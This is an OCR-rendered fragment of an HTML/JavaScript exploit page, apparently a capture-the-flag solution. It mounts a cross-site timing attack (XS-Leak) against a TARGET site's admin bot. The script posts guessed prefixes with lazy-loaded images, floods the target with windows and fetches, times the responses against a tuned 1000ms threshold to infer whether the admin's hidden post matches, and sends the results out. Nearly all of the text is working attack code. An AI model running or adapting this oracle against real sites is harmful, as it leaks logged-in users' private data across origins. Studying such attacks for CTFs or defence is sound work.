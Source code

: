 ```html
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
    // if the request is not enough, we can send more by opening more window
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30
      setTimeout(async () => {
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>

</body>

</html>
```
